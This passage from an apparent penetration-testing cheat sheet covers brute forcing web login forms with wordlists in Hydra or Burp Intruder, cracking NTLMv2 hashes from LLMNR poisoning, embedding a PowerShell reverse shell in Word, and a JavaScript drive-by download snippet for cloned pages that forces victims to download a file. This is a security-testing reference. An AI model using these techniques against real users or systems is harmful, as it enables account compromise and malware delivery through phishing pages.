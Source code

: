 Such keywords can include a company name, abbreviations, or words that describe the company's services, products, etc.

After you generated the wordlist, use it with tools such as [Hydra](#hydra), [Burp Suite Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder), etc., to brute force login web forms. Hydra can attack authentication mechanisms for all kinds of services and ports.

If strong password policy is enforced, lazy passwords usually start with one capitalized word followed by a few digits and one special character at the end (e.g., Password123!).

You can also use the generated wordlist with [hashcat](#hashcat), e.g., to crack NTLMv2 hashes that you have collected using LLMNR responder during a network penetration testing, etc.

## 6. Social Engineering

Find out how to embed a PowerShell script into an MS Word document in my project at [ivan-sincek/powershell-reverse-tcp](https://github.com/ivan-sincek/powershell-reverse-tcp#ms-word).

### Drive-by Download

To force users to download a malicious file, copy and paste this JavaScript code block on any cloned web page:

```javascript
function download(url, type, name, method) {
	var req = new XMLHttpRequest();
	req.open(method, url, true);
	req.responseType = 'blob';
	req.onload = function() {
		var blob = new Blob([req.response], { type: type })
		var isIE = false || !!document.documentMode;
		if (isIE) {
			// IE doesn't allow using a blob object directly as link
			// instead it is necessary to use msSaveOrOpenBlob()
			if (window.navigator && window.navigator.msSaveOrOpenBlob) {
				window.navigator.msSaveOrOpenBlob(blob, name);
			}
		} else {
			var anchor = document.createElement('a');
			anchor.href = window.URL.createObjectURL(blob);
			anchor.download = name;
			anchor.click();
			// in Firefox it is necessary to delay revoking the ObjectURL
			setTimeout(function() {
				window.URL.revokeObjectURL(anchor);
				anchor.remove();
			}, 250);
		}
	};
	req.send();
}
// specify your file here, use only an absolute URL
download('http://localhost/files/pentest.pdf', 'application/pdf', 'pentest.pdf', 'GET');
// download('http://localhost/files/pentest.docx', 'plain/txt', 'pentest.docx', 'GET');
```
